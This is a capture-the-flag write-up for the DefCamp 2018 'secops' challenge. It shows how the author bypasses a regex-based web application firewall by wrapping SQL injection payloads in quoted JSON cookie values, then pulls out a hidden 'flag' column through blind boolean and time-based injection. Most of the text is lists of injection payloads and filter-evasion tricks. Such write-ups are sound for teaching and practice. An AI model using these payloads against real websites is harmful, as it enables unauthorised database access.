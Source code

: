 ```yaml
---
layout: post
title:  "DefCamp CTF Qualification 2018"
date:   2018-09-25 00:00:00 +0000
categories: writeups ctf
---
```


You can find some of the scripts I used for this ctf [on my github repo](https://github.com/nytr0gen/defcamp-ctf-quals-2018-writeups)

secops writeup
---------

```
Firewalls proved to be very useful in our hosting environment as it protects against attacks on vulnerable sites of our clients.
Target: https://secops.dctfq18.def.camp/
Author: Anatol
```

I'll keep it short. very short.

Simple website that let's me change my flair. It looks like this:

![Website](/assets/images/secops/screenshot.png)

So when I click *set as flair* it sets my flair to anything in there. How does it do it? It's a binded onclick event on that button:

```javascript
$('.hook-set').click(function() {
    var prefs = JSON.stringify({ flair: $(this).data('id') });
    document.cookie = 'prefs' + "=" + encodeURIComponent(prefs) + "; path=/";
    location.reload();
});
```

So after fiddling around a bit, I find that the flair with id 4 has the Name `Flag`. That's like jackpot. Easy challenge. Done. lol.

I was thinking the actual flag is in the Price. As you can see the table has 3 columns: id, name, price. Cool.

It's a pain to work with the cookie encoded, so I scripted a little nodejs tool to help me `pwn.js` to do the hard part for me so I could just try different sqli attack vectors. I didn't need much to discover there was an Web Application Firewal in place (a bit later a teammate pointed it out to me that it said so in the description lol. gotta read it more carefully next time)

The query inside I guessed looks something like this `SELECT name FROM table WHERE id = '%id';`. I played with my tool a bit:

```
node pwn.js "' or 1=1--"
node pwn.js "' or 1=1#"
node pwn.js "' or 1=1##"
node pwn.js "' or 1=1/*"
node pwn.js "' or 1=1###"
node pwn.js "' or 1=1"
node pwn.js "' or 1='1"
node pwn.js "' or 1=1'"
node pwn.js "4' or 1=1'"
node pwn.js "4' or 1''=1'"
node pwn.js "4' or '1'=1'"
node pwn.js "4' or '80'=1'"
node pwn.js "4' or 80=1'"
node pwn.js "4' or 80=80'"
node pwn.js "4' or 80=80''"
node pwn.js "4' or 80=80'''"
node pwn.js "4' or 16='0xf"
node pwn.js "4' or 16=0xf'"
node pwn.js "4' or 1='"
node pwn.js "3' or sleep(5000)='"
node pwn.js "3' or sleep(500000)='"
node pwn.js "3' or 1='"
node pwn.js "3'\"\n"
node pwn.js "3'"
node pwn.js "3' or sleep(1)=0"
node pwn.js "3' or sl/**/eep(1)=0"
node pwn.js "3' or sl/**/eep(1)='0"
node pwn.js "3' or sl/**/eep(50)='0"
node pwn.js "3' or SLeEp(50)='0"
node pwn.js "3' or SLeEp (50)='0"
node pwn.js "3' or benchmark(200000,md5(now()))='0"
node pwn.js "3' or benchmark()='0"
node pwn.js "3' or b/**/enchmark()='0"
node pwn.js "3' or md5()='0"
node pwn.js "3 or md5()=0"
node pwn.js "3' or"
node pwn.js "3' or 1=1--"
node pwn.js "3' or 1=1/*"
node pwn.js "3' or 1=1#"
```

All failures. Website was sending 500 on SQL ERROR. Otherwise, WAF was blocking the request with 403. almost every time.

Then I figured out after reading a bit on WAF on OWASP that maybe it reacts somehow to
a cookie like `{"flair":"a","flair":${JSON.stringify(flair)},"flair":"b"}`. Nope. But that pointed me on the right direction. The WAF was accepting some things when I used quotes around them. So what if quote left and right, json valid, and send it. Hopefully WAF uses a regex, not a json parser (who parses cookies for JSON?!), so maybe it's not that strict inside quotes.

We got a winner.
`{"flair":"'","flair":${JSON.stringify(flair)},"flair2":"'"}`
PS: I dont think the first flair key is necessary but I didn't test it.

So back to testing attack vectors:
```
node pwn.js "3' order by '1"
node pwn.js "3' order by '1'--#"
node pwn.js "3' order by '1'"
node pwn.js "3' order by 1"
node pwn.js "3' or 1='1"
node pwn.js "3' and 1='0"
node pwn.js "3' union all select '1"
node pwn.js "3' union sele/**/ct '1"
node pwn.js "3' u/**/nion sele/**/ct '1"
node pwn.js "3' union select '1"
```

`Union select` blocked by WAF.

```
node pwn.js "4' and length(price)<10 and 1='1"
node pwn.js "4' and length(price)<5 and 1='1"
node pwn.js "4' and length(price)<8 and 1='1"
node pwn.js "4' and length(price)<6 and 1='1"
node pwn.js "4' and length(price)<7 and 1='1"
node pwn.js "4' and length(price)=6 and 1='1"
node pwn.js "4' and left(price,2)='99' and 1='1"
node pwn.js "4' and left(price,3)='999' and 1='1"
node pwn.js "4' and left(price,4)='9999' and 1='1"
node pwn.js "4' and left(price,4)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.9' and 1='1"
node pwn.js "4' and left(price,7)='999.99' and 1='1"
node pwn.js "4' and left(price,6)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from information_schema)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from informat/**/ion_schema)='999.99' and 1='1"
node pwn.js "4' and (union select 1 from informat/**/ion_schema)='999.99' and 1='1"
```

The flag wasn't in `price` :(. also `information_schema` blocked.

```
node pwn.js "4' order by '1"
node pwn.js "4' and length(flag)='999.99' and 1='1"
node pwn.js "4' and length(flag)>0 and 1='1"
node pwn.js "4' and length(flag)>10 and 1='1"
node pwn.js "4' and length(flag)<100 and 1='1"
node pwn.js "4' and length(flag)<50 and 1='1"
node pwn.js "4' and length(flag)<25 and 1='1"
node pwn.js "4' and length(flag)<10 and 1='1"
node pwn.js "4' and length(flag)<64 and 1='1"
node pwn.js "4' and length(flag)=64 and 1='1"
node pwn.js "4' and length(flag)=70 and 1='1"
```

But on a lucky guess of a teammate I found out there was another column named `flag` and it had the right length (70 chars). Jackpot!

After that I coded a binary search into my script and waited a bit to get the flag. BLIND. The code is in `pwn.js`. To run it you need `nodejs`
```
npm install
npm pwn.js
```
